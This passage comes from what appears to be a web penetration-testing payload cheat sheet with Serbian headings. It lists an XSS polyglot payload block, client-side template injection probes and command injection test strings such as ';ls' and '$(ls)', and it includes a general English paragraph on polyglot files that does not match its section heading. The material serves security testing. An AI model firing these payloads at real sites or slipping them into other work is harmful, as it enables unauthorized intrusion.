 ```python
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

## [Ubacivanje šablona na klijentskoj strani](../client-side-template-injection-csti.md)

### Osnovni testovi

```
{{7*7}}
[7*7]
```

### Poligloti

A polyglot is a file that can be interpreted as multiple file types depending on the context in which it is executed. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.

Polyglots are typically created by taking advantage of the similarities between different file formats. By carefully crafting a file that adheres to the specifications of multiple file types, an attacker can create a polyglot that can be interpreted differently by different applications.

For example, a polyglot file may appear as a harmless image file when opened in an image viewer, but when executed as a script, it can execute malicious code. This can be used to bypass file type restrictions and upload malicious files to a web application.

Polyglots can also be used to exploit vulnerabilities in specific file parsers. By creating a file that triggers a vulnerability in a parser, an attacker can execute arbitrary code or gain unauthorized access to a system.

When conducting a penetration test, it is important to be aware of the potential for polyglots and to test for vulnerabilities in file parsers. By understanding how polyglots work and how they can be used to bypass security measures, you can better protect your systems from these types of attacks.

```bash
{{7*7}}[7*7]
```

## [Command Injection](../command-injection.md)

### Osnovni testovi

```bash
;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls`
$(ls)
```

